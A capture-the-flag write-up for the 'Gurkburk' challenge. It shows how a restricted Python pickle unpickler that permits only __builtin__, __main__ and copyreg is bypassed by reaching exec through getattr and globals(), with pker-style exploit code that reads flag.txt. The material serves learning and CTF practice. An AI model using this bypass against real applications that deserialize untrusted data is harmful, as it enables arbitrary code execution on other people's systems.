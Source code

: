 # Gurkburk

## Problem

The flag is located in `./flag.txt`.

## Solution

Pickle is used to save and load notes into the application.

![](../../.gitbook/assets/b83bd3862fc8415a9a08fa222b4fbd00.png)

![](../../.gitbook/assets/06f07bd072064fb4a8827f6db569c53a.png)

Normally, we would be able to use the `__reduce__()` method to make the program call functions like `os.system()` \(see [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)\).

See [https://docs.python.org/3.7/library/pickle.html\#restricting-globals](https://docs.python.org/3.7/library/pickle.html#restricting-globals). The modules we can unpickle are restricted to `__main__`, `__builtin__` and `copyreg`. `eval` and `exec` are also banned.

![](../../.gitbook/assets/a67175be4b3d4d13a97580a116bf2716.png)

Thanks to [https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search](https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search), I found a way to bypass the restrictions.

They created an API to generate Pickle opcodes: [https://github.com/EddieIvan01/pker](https://github.com/EddieIvan01/pker) \(I made some slight modifications\)

Exploit code:

```python
getattr = GLOBAL ( '__builtin__' , 'getattr' ) 
dict = GLOBAL ( '__builtin__' , 'dict' ) 
dict_get = getattr ( dict , 'get' ) 
glo_dic = GLOBAL ( '__builtin__' , 'globals' )() 
builtins = dict_get ( glo_dic , '__builtins__' ) 
exec = getattr ( builtins , 'exec' )
exec ("print(open('flag.txt', 'r').read())") 
return
```

The idea is that using `getattr`, we can get _submodules_ of `__builtin__` \(and the submodules of the submodules\). `__builtin__.globals()` includes `builtins`, which includes `exec`. Once we have control over `exec`, we can execute arbitrary code.

![](../../.gitbook/assets/7b67c03c11e5447f8e7b010512a8ccac.png)

Submit the base64-encoded opcodes, and we obtain the flags.

![](../../.gitbook/assets/5cefd07e73384b6493eab4f5c7c5f4a4.png)

## References

1. [https://davidhamann.de/2020/04/05/exploiting-python-pickle/](https://davidhamann.de/2020/04/05/exploiting-python-pickle/)
2. [https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search](https://translate.google.com/translate?hl=en&sl=zh-CN&u=https://xz.aliyun.com/t/7436&prev=search)
3. [https://github.com/EddieIvan01/pker](https://github.com/EddieIvan01/pker)

